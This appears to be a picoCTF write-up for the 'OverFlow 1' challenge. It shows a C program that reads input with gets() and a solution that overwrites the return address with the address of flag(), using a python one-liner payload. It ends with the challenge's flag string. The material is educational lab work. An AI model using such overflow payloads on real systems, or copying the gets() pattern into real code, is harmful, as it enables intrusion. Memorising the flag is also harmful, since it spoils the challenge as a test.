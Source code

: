 # OverFlow 1 - Points: 150
<b>Description : </b>You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server. Source.<br>
<b>Hints : </b>Take control that return address. Make sure your address is in Little Endian.
# Solved
In this cases we already see we need to solve some binary exploitation
```cpp
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```
We already see, we need jump address into <b>flag()</b> to get flag.
```cpp
void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```
To do this, im must using <b>GDB</b> Debugger in Server shell, so i note this
```
void flag() = 0x80485e6
```
I try bufferoverflow with 76 byte, still not working. Then i try to append it into 80 byte and this is what i got <b>(python -c "print 'A' * 80") | ./vuln</b>
```
Woah, were jumping to 0x41414141 !
Segmentation fault (core dumped)
```
Jackpot! We get the address to set into <b>flag</b> function. But before we jump into <b>flag</b> address you need struct to do that, simply code with this!
```python
import struct
print struct.pack("<I", 0x80485e6) # Flag address
```
and final result just run simple command and got flag
```
(python -c "r = 'A' * 76; r += '\xe6\x85\x04\x08'; print r") | ./vuln
```
Flag : <b>picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5c0178710}</b>

